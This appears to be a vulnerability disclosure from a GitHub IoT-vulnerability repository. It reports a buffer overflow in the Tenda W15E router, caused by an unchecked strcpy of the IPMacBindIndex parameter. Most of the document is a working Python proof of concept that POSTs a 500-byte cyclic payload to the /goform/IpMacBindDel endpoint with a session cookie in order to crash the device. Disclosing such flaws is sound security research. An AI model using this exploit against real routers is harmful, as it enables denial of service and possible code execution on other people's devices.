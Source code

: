 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x000690C8. IndexSet gets the content of IPMacBindIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 
![image](https://github.com/sezangel/IOT-vul/assets/89381625/a1594de5-f831-46b2-875b-f488f77deb89)

POC:

```python
import requests
from pwn import *

url='http://192.168.100.2/goform/IpMacBindDel'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```


![ad266ca80ca83012a4786f0d5ef9748](https://github.com/user-attachments/assets/cec3f0ee-70dc-443a-8d7b-d943f08e375f)

